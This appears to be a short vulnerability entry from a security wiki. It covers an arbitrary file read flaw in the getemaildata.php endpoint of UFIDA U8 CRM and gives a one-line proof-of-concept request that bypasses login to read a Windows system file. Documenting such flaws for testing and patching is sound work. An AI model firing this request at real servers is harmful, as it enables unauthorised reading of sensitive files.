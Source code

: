 # UFIDA U8 CRM customer relationship management system getemaildata.php arbitrary file reading vulnerability

## Vulnerability Description

UFIDA U8 CRM customer relationship management system getemaildata.php has an arbitrary file reading vulnerability, and an attacker can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA U8 CRM Customer Relations Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1680525831431-a143a41a-f89e-4132-913f-0f0e8858628c-20230812123820985.png)

Verify POC

```plain
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691568204155-1b46ce98-e317-4318-9fb3-f2bcad3b0988.png)